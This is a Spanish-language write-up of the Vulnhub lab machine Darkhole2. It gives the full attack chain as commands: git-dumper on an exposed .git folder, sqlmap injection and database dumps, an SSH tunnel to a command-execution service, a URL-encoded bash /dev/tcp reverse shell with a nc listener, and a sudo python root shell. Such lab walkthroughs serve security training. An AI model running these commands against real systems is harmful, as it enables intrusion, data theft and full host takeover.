 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox

![descripcion](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/descripcion.jpg)

https://www.vulnhub.com/entry/darkhole-2,740/ 

## Escaneo de Red
En primer lugar, tenemos que obtener la dirección IP del objetivo

![uso del netdiscover](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/netdiscover.jpg)

~~~
netdiscover
~~~

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

~~~
nmap -A 192.168.40.133
~~~

![uso del nmap](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/nmap.jpg)

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22.
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git.

## Enumerar el servidor web
Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

![visualizacion de laweb](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/web.jpg)

Decidimos echar un vistazo a la página de inicio de sesión.

![vista login](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/login.jpg)

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.
![vista repositorio git](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git.jpg)

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

![vista gitclone](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitclone.jpg)
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~

Después de descargar la herramienta, intentamos ejecutarla con python .

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitdumpe%20python.jpg)
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup
~~~

Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para continuar.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git%20log.jpg)
~~~
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~

Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

~~~
Email: lush@admin.com
Password: 321
~~~

## Explotación
Nos logeamos en esa página, parece ser adecuada para tácticas relacionadas con la inyección de SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/375d0afe-a663-4ae2-8ed7-7b8d8306ebf3)

### BURP SUITE
Entonces, usamos burpsuite para recopilar las cookies de esta página. Será ventajoso para nuestra estrategia de inyección SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/67b83dec-2f36-473b-a4fa-3e095e98f890)

### Usando SQLMAP
Insertamos la cookie capturada anteriormente en sqlmap 

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/a1530d38-1748-4d26-be2e-8bea8c6bd538)
![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/6f481be5-6ea5-4d6d-a0b4-cc0253ba88c4)
~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" --dbs –batch
~~~

Obtuvimos algunas bases de datos en cuestión de minutos. Entonces, iniciamos otro comando (usando el parámetro -D) para volcar la base de datos llamada darkhole_2

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3cd9ae27-b481-4022-a0bf-34499d6aa230)

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3480ebbb-a385-4252-b9d4-659b051f6225)

~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" -D darkhole_2 --dump-all --batch
~~~

En cuestión de momentos, descubrimos las credenciales ssh para el usuario Jehad en esta base de datos de volcado. 

~~~
User: jehad
Pass: fool
~~~

Ahora, usando estas credenciales ssh, iniciamos sesión con el usuario Jehad y abrimos su identificación para autenticarlo.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/cf4abf46-fdfd-475e-95b5-290e7efff130)

~~~
ssh jehad@192.168.40.133
id
~~~

## Escala de privilegios

Vemos un cron  que se ejecuta con el usuario losy.

Aquí podemos ver que un servidor web se está ejecutando en el puerto 9999. Cuando vemos el contenido del código fuente, vemos que esto permite la ejecución remota de comandos.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/dc94e9dc-3ae6-4bb0-8952-f6756a3bdcb7)

    cat /etc/crontab

Por lo tanto, podemos tunelizar el puerto 9999 usando SSH de la siguiente manera.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/114f1fdc-9351-4819-82fa-3deaad1243f6)

Ha llegado el momento de lanzar este asalto. Intentamos iniciar sesión como el usuario jehad, utilizando los detalles del reenvío de puertos locales proporcionados en los resultados anteriores que obtuvimos.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/51057c2c-55c0-431d-9b7f-74c05d631591)

    ssh -L 9999:127.0.0.1:9999 jehad@192.168.40.133

Luego, podría visitar 127.0.0.1:9999 para el RCE.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/d2d24d1f-ac23-4737-b236-7b3fd5a142d3)

    http://127.0.0.1:9999/?cmd=id

Ahora, podemos obtener un reverse shell con el usuario losy. Para eso, estoy escuchando en el puerto 9001.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/shellr.jpg)

    nc -nlvp 9001

El siguiente payload me daría un reverse shel.

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

En formato url   &->%26  (URL encode)

    bash -c 'bash -i >%26 /dev/tcp/192.168.40.128/9001 0>%26

Mandamos el payload cambiando id por el cofificado en URL previamente realizado en el paso anterior.

~~~
http://127.0.0.1:9999/?cmd=id
http://127.0.0.1:9999/?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.40.128/9001 0>%261'
~~~

Obtenemos respuesta del Puerto de escucha:

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/61540892-f8c6-4f7b-9935-4cbe60706754)

~~~
cd
ls -la
cat user.txt
cat.bash history
~~~

Descubrimos las credenciales de inicio de sesión de losy en este archivo de historial de bash.

    losy: gang

Después de eso, probamos los permisos sudo de este usuario. Descubrimos que podíamos llegar a la raíz usando una sola línea de python

~~~
sudo –S –l
gang
~~~

Ahora ejecuta este one-liner de python con sudo y la credencial losy.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/d4a26c9c-18d0-470f-a940-eba826879334)

~~~
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
cd
cat root.txt
~~~

Obtuvimos usuario root con acceso a la raiz
